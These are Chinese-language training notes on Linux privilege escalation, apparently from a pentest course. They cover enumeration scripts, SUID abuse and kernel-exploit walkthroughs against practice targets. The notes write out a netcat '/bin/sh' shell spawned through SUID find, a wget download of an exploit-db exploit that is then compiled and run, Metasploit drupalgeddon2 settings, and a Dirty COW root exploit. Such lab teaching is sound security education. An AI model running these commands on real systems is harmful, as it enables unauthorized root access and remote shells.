




# 思维导图


# 资料

**权限提升-linux提权手法总结.pdf**

链接：https://pan.baidu.com/s/1zTnG-xhx4NwsArY0H5SSHA?pwd=tzn2 
提取码：tzn2

# 演示案例：

## 案例 1-Linux 提权自动化脚本利用-4 个脚本

两个信息收集：LinEnum,linuxprivchecker
两个漏洞探针：linux-exploit-suggester linux-exploit-suggester2
需要解释：信息收集有什么用哦？漏洞探针又有什么用哦？

- 信息收集为后续提权做准备
- 主要用于内核提权，判定操作系统上可能存在的漏洞 


**项目地址**

- [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
- [https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- [https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)

#### LinEnum——Linux枚举及权限提升检查工具

```shell
./LinEnum.sh
```

主要检测以下几个大类的信息

- 内核和发行版发布详情
- 系统信息
- 用户信息
- 特权访问
- 环境
- 作业/任务
- 服务
- 一些web服务的版本信息
- 默认/弱凭证
- 搜索
- 平台/软件特定测试

参考：https://github.com/rebootuser/LinEnum


#### linuxprivchecker——Linux 权限提升检查脚本

`python 环境`

```python
python2 linuxprivchecker.py -w -o linuxprivchecker.log

linuxprivchecker -w -o linuxprivchecker.log
python3 -m linuxprivchecker -w -o linuxprivchecker.log
```



#### linux-exploit-suggester

```shell
./linux-exploit-suggester.sh
```

会检测到当前系统可能存在的漏洞，返回信息比较多，存在误报


#### linux-exploit-suggester2

`perl 语言环境`

```perl
./linux-exploit-suggester-2.pl
```

返回可利用漏洞。这里没有可利用漏洞。


## 案例 2-Linux 提权 SUID 配合脚本演示-Vulhub

#### SUID提权原理

**SUID（Set User ID）是一种授予文件的权限类型，允许用户以其所有者的权限执行文件。**例如，ping实用程序需要root权限才能打开网络套接字，但它也需要由标准用户执行，以验证与其他主机的连接。通过将ping程序标记为SUID（所有者为root），只要标准用户执行ping程序，便会以root特权 执行ping。

​	但是如果某些现有的二进制文件和实用程序具有SUID权限，则可以使用它们将权限升级到root，我们可以使用它来提升我们的特权。

**可以允许权限提升的已知Linux可执行文件包括：**

- Nmap
- Vim
- find
- Bash
- mv
- More
- Less
- Nano
- cp

#### 查找SUID可执行文件

以下命令可以发现系统上运行的所有SUID可执行文件。

- 更具体地说，这些命令将尝试在用户root拥有的/目录中查找具有SUID权限位的文件，打印它们，然后将所有错误重定向到/dev/null，以便列出用户有权访问的二进制文件。

```shell
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

参考利用：

- https://pentestlab.blog/2017/09/25/suid-executables/
- [Linux特殊权限之suid、sgid、sbit权限](https://baijiahao.baidu.com/s?id=1727594857858909253&wfr=spider&for=pc)


Linux 系统，最常见的文件权限有 3 种，即对文件的**读**（用 r 表示）、**写**（用 w 表示）和**执行**（用 x 表示，针对可执行文件或目录）权限。在 Linux 系统中，每个文件都明确规定了不同身份用户的访问权限，通过 ls 命令即可看到。除此之外，我们有时会看到 **s（针对可执行文件或目录，使文件在执行阶段，临时拥有文件所有者的权限）**和 t（针对目录，任何用户都可以在此目录中创建文件，但只能删除自己的文件）

#### 漏洞成因

chmod u+s 给予了 suid    u-s 删除了 suid
使程序在运行中受到了 suid root 权限的执行过程导致

举个栗子




#### 提权过程

探针是否有 SUID(手工或脚本)----特定 SUID 利用-----利用吃瓜-----GG

##### 脚本探针


发现find 

##### suid利用

```shell
touch xiaodi
find xiaodi -exec whoami \;
find xiaodi -exec netcat -lvp 5555 -e /bin/sh \;
netcat xx.xx.xx.xx 5555
```


## 案例 3-Linux 提权本地配合内核漏洞演示-Mozhe

**靶场地址**

- [https://www.mozhe.cn/bug/detail/T3ZEbFljRmFKQTVjVitoV2JxUzVoQT09bW96aGUmozhe](https://www.mozhe.cn/bug/detail/T3ZEbFljRmFKQTVjVitoV2JxUzVoQT09bW96aGUmozhe)


#### 提权过程

连接-----获取可利用漏洞-----下载或上传 EXP-----编译 EXP-----给权限执行-----GG


#### 上传漏洞探针脚本


#### 运行漏洞探针脚本


这一题考核的是CVE-2017-16695

#### 上传exp

直接开始

```shell
wget  http://www.exploit-db.com/exploits/45010
```


连接不上，那就手动下载，再上传

```
https://www.exploit-db.com/download/45010
```


#### 执行exp进行提权

```shell
gcc 45010.c -o 45010
chmod +x 45010
./45010
id
```


#### 找到key.txt


## 案例 4-Linux 提权脏牛内核漏洞演示-linux-exploit-suggester

#### dirtycow-脏牛

#### 漏洞范围：

Linux kernel >= 2.6.22（2007年发行，到2016年10月18日才修复）

#### 危害：

低权限用户利用该漏洞可以在众多Linux系统上实现本地提权

#### 简要分析：

该漏洞具体为，get_user_page内核函数在处理Copy-on-Write(以下使用COW表示)的过程中，可能产出竞态条件造成COW过程被破坏，导致出现写数据到进程地址空间内只读内存区域的机会。修改su或者passwd程序就可以达到root的目的。具体分析请查看官方分析。

参考：[脏牛Linux本地提权漏洞复现(CVE-2016-5195)](https://www.jianshu.com/p/df72d1ee1e3e)

#### 实验复现

- kali
- 靶机
  - [https://www.vulnhub.com/entry/lampiao-1,249/](https://www.vulnhub.com/entry/lampiao-1,249/)



查ip

```shell
ifconfig
```


扫描网段

```shell
nmap 192.168.80.1/24
```


发现192.168.80.141的80端口，是这样的



扩大端口扫描范围

```shell
nmap  -p 1-65535 192.168.80.141
```


1898端口


CMS为Drupal

网上搜索查找Drupal，或者直接使用msf

```shell
msfconsole
search Drupal
```


```shell
use exploit/unix/webapp/drupal_drupalgeddon2
set rhost 192.168.76.141
set rport 1898
set target 0
exploit
```


上传漏洞探针脚本

```shell
upload /root/linux-exploit-suggester.sh  /tmp  a.sh
```


创建shell窗口,执行探针脚本

```shell
shell
./1.sh
chmod 1.sh 
./1.sh
```


扫描结果


没有使用官方的exp

https://www.jianshu.com/p/df72d1ee1e3e

使用的是上述链接文章中的的EXP二

https://github.com/gbonacini/CVE-2016-5195

```shell
upload /root/dcow.cpp /tmp
shell
ls 
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
python -c 'import pty; pty.spawn("/bin/bash")'
./dcow
```


# 涉及资源：

[https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
[https://www.vulnhub.com/entry/lampiao-1,249/](https://www.vulnhub.com/entry/lampiao-1,249/)
[https://github.com/rebeyond/Behinder/releases](https://github.com/rebeyond/Behinder/releases)
[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
[https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
[https://pentestlab.blog/2017/09/25/suid-executables/](https://pentestlab.blog/2017/09/25/suid-executables/)
[https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
[https://www.mozhe.cn/bug/detail/T3ZEbFljRmFKQTVjVitoV2JxUzVoQT09bW96aGUmozhe](https://www.mozhe.cn/bug/detail/T3ZEbFljRmFKQTVjVitoV2JxUzVoQT09bW96aGUmozhe)

